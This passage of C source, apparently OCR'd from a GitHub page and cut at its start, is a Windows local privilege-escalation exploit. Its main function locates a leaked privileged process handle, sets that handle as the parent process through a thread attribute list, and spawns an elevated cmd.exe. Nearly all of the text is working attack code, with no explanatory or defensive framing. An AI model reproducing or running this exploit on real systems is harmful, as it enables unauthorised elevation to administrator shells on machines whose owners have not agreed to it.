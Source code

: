 ```c

        free(objectTypeInfo);
        free(objectNameInfo);
    }

    return hProc;
} 


int main(int argc, char **argv) {

    HANDLE hProc = NULL;
    STARTUPINFOEXA si;
    PROCESS_INFORMATION pi;
    int pid = 0;
    SIZE_T size;
    BOOL ret;

    Sleep(20000);
    // find leaked process handle
    hProc = GetVulnProcHandle();

    if ( hProc != NULL) {

        // Adjust proess attributes with PROC_THREAD_ATTRIBUTE_PARENT_PROCESS
        ZeroMemory(&si, sizeof(STARTUPINFOEXA));

        InitializeProcThreadAttributeList(NULL, 1, 0, &size);
        si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc( GetProcessHeap(), 0, size );

        InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
        UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hProc, sizeof(HANDLE), NULL, NULL);

        si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

        // Spawn elevated cmd process
        ret = CreateProcessA( "C:\\Windows\\system32\\cmd.exe", NULL, NULL, NULL, TRUE, 
            EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOA)(&si), &pi );

        if (ret == FALSE) {
            printf("[!] Error spawning new process: [%d]\n", GetLastError());
            return -1;
        }
    }

    Sleep(20000);
    return 0;
}
```
